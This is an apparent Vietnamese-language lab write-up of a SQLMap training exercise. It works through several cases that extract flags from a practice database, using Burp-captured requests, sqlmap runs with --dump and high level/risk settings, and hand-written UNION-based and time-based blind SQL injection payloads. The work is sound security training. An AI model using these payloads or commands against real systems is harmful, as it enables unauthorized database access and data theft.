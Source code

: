 <h1>Running SQLMap on an HTTP Request</h1>

![image](https://github.com/user-attachments/assets/f7e4c7f3-c852-47df-afe8-caccbe23cbe6)

![image](https://github.com/user-attachments/assets/581a802c-657d-48ff-8332-b769a30ccd68)

Giao diện web khi tôi truy cập vào:

![image](https://github.com/user-attachments/assets/cb955abc-53d3-4025-8739-cc46f61a99cb)

Bắt đầu với case2:

![image](https://github.com/user-attachments/assets/fc062b3f-0301-4010-952f-5f3bb8072ed3)

Sau khi submit id=1 thì ra cái này:

![image](https://github.com/user-attachments/assets/6029ae27-e0ae-4d36-a79e-92e63ab32a09)

Tôi dùng burp bắt request lại và đưa vào file req.txt:

![image](https://github.com/user-attachments/assets/ae7e65e6-41f7-469c-9fb9-aab0779138b2)

Rồi tôi chạy `sqlmap -r req.txt`:

![image](https://github.com/user-attachments/assets/826c2b9c-64a5-41b1-8f43-4a5d9fb20182)

![image](https://github.com/user-attachments/assets/3b183864-9dac-4c31-87d5-13e6ea3ba2f9)

Và kết quả nhận lại 3 loại sqli, tôi tin chọn dùng UNION query cho nhanh, đầu tiên là thử payload `1 UNION SELECT 1, 2, 3, 4, 5, 6, 7, 8, 9 -- -` để check thử:

![image](https://github.com/user-attachments/assets/8a9c8389-b0d0-4696-81ba-fa7d49d658b8)

Thấy chạy ổn ổn thì tôi sẽ xem thử trong bảng flag2 có những cột nào bằng payload `1 UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5,6,7,8,9 from INFORMATION_SCHEMA.COLUMNS where table_name='flag2'-- -`:

![image](https://github.com/user-attachments/assets/acf11b04-e543-4808-855e-39e5363e8455)

Nhìn vào tôi thấy được bảng flag2 thuộc testdb và gồm có 2 cột là id và content, dùng `1 UNION select 1, id, content, 4,5,6,7,8,9 from flag2-- -` để lấy content và id và flag2:

![image](https://github.com/user-attachments/assets/6757d16b-2421-44aa-8bec-805539cbbebf)

Đối với case3 thì cái id lại nằm trong cookie nên sqlmap không nhận ra được:

![image](https://github.com/user-attachments/assets/6c154c94-0ab1-4e66-a51d-332ad23c911d)

![image](https://github.com/user-attachments/assets/1a0f69dd-f446-4f97-8f02-4b371a1b010e)

Và sqlmap cũng bảo thêm cái --crawl vào nên tôi chạy lệnh `sqlmap -r req.txt --crawl=2 --batch` và kết quả đây:

![image](https://github.com/user-attachments/assets/e2dbdba7-48a0-4de8-8596-720663d37f13)

Lại như trước thôi:

![image](https://github.com/user-attachments/assets/4e470eec-07b9-4553-82c1-32d749ad30ef)

![image](https://github.com/user-attachments/assets/b6ae55c7-47ff-49f3-9d94-0b70f9371421)

case4 thì có id nằm trong json, dù thế thì vẫn như cũ thôi:

![image](https://github.com/user-attachments/assets/04b09f8e-4b57-4350-81e1-d6299cbb4e62)

![image](https://github.com/user-attachments/assets/4299aa7b-9871-4671-9796-0aa6436b29e5)

![image](https://github.com/user-attachments/assets/8908b8dc-ab87-4208-8612-e49629c71936)

<h1>Attack Tuning</h1>

![image](https://github.com/user-attachments/assets/6ff11b59-8e34-4209-9ca2-1bd14fcc0412)

TIếp tục với các case tiếp theo, case số 5:

![image](https://github.com/user-attachments/assets/3ccfda26-0af9-466f-90e3-ce86c69813c9)

![image](https://github.com/user-attachments/assets/8efe7a43-d862-45d6-a721-e41a805f27fb)

Method là GET, lúc đầu sqlmap chạy không ra, tôi thêm --level và --risk cho chắc cú `sqlmap -r req.txt --batch --level=5 --risk=3` và đây là kết quả, 1 boolean và 1 blind:

![image](https://github.com/user-attachments/assets/fe03fe49-79c9-46b0-852d-e1ff796e67d5)

Tôi quyết định dùng payload này `id=1 OR (SELECT 1 FROM (SELECT CASE WHEN (SUBSTRING((SELECT content FROM flag5 LIMIT 1), 1, 1)='a') THEN SLEEP(10) ELSE 0 END)aFuZ)` và dùng python để chạy payload:

![image](https://github.com/user-attachments/assets/6010df7c-6de7-4773-80a6-1c48378fdcb6)

![image](https://github.com/user-attachments/assets/2f9f1896-8868-4bd9-94a2-a2fef8f0ee82)

Cay

![image](https://github.com/user-attachments/assets/88e4777d-fc2c-42a6-b062-b8848b7466f8)

Dùng `sqlmap -r req.txt --batch --dump -T flag6 -D testdb --no-cast --level=5 --risk=3 --prefix='``)'` thêm cái --dump để ra luôn kết quả:

![image](https://github.com/user-attachments/assets/1dd466eb-2600-4591-a7e2-a2ff51a589b4)

![image](https://github.com/user-attachments/assets/737f3a14-1e42-4029-b931-2dcdb7cfc85d)

Nếu chạy không có --dump thì ra các loại sqli:

![image](https://github.com/user-attachments/assets/f230fb5d-6178-4c1c-8126-cb1363c690a5)

Tiếp theo là case7:

![image](https://github.com/user-attachments/assets/c727ed49-ae41-4577-85f4-47f8afc999c0)

![image](https://github.com/user-attachments/assets/bba9e7d1-a381-4c97-ad3f-a1b62375bdd1)

Lâu điênnn, à có thể dùng lệnh `sqlmap -r req.txt --batch --dump -T flag7 -D testdb --no-cast --level=5 --risk=3 --union-cols=5 --dbms=MySQL` cho chạy nhanh hơn!
<br>
Quay lại case1, do bố cục bài nó thế chứ không phải tôi thích thế:

![image](https://github.com/user-attachments/assets/5a27e41d-eeb7-449b-9052-3a10200416bc)

![image](https://github.com/user-attachments/assets/c820975c-1ed1-4a5c-a056-6ceb412028b3)

![image](https://github.com/user-attachments/assets/6faa0865-d491-47b0-97e1-45917b8f6f11)

![image](https://github.com/user-attachments/assets/bf9aae8c-8fa0-4206-9ff3-02d6e9e36e55)


